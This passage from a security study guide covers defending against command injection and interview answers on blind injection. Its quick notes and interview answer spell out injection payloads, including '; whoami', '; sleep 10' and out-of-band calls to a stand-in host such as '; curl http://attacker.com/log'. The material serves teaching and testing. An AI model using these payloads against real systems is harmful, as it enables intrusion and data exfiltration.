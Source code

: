 2. **Input Validation**:
   - Validate user input against a strict whitelist of allowed values (e.g., IP addresses, filenames).
   - Use regex or predefined lists to restrict input to safe characters.

3. **Sanitize Input**:
   - Escape special characters using functions like `escapeshellarg` (PHP) or `shlex.quote` (Python).
   - Example in PHP: `$input = escapeshellarg($input);`.

4. **Use Safe APIs**:
   - Pass arguments as arrays to command execution functions to avoid shell interpretation.
   - Example in Python: `subprocess.run(['ls', path], shell=False)`.

5. **Least Privilege Principle**:
   - Run the application and commands with minimal permissions (e.g., non-root user, restricted environment).
   - Use sandboxing techniques like Docker or chroot jails.

6. **Security Testing**:
   - Regularly test for command injection using SAST and DAST tools.
   - Conduct manual penetration testing to identify complex vulnerabilities.

7. **Logging and Monitoring**:
   - Log all command executions and monitor for suspicious patterns.
   - Implement alerts for unexpected commands or errors.

---

### Quick Notes on Command Injection (5-6 Points)

- **Definition**: Allows attackers to execute arbitrary system commands via unsanitized user input.
- **Attack Vector**: Malicious input in forms, URLs, or APIs passed to command execution functions.
- **Key Indicator**: Use of `system`, `exec`, or similar functions with unvalidated input.
- **Prevention**: Validate input, avoid shell commands, use safe APIs, and run with least privilege.
- **Impact**: System compromise, data exposure, or privilege escalation.
- **Testing**: Use DAST tools to inject payloads like `; whoami` and check responses.

---

### Top Advanced Interview Questions on Command Injection

1. **Question**: How can an attacker exploit a blind command injection vulnerability, and what techniques can be used to detect it?

   **Answer**: **Exploitation**:
   - In blind command injection, the application does not return command output, but the command executes.
   - Attackers use payloads like `; ping attacker.com` or `; curl http://attacker.com/log` to send data to an external server they control.
   - Time-based payloads like `; sleep 10` can confirm execution by delaying the response.
   **Detection**:
   - Use DAST tools to inject time-based payloads (e.g., `sleep 10`) and measure response times.
   - Set up an external server to capture out-of-band requests (e.g., DNS or HTTP requests).
   - Monitor server logs for unexpected command executions or errors.
   - Manually test with payloads like `; nslookup attacker.com` to trigger DNS requests.
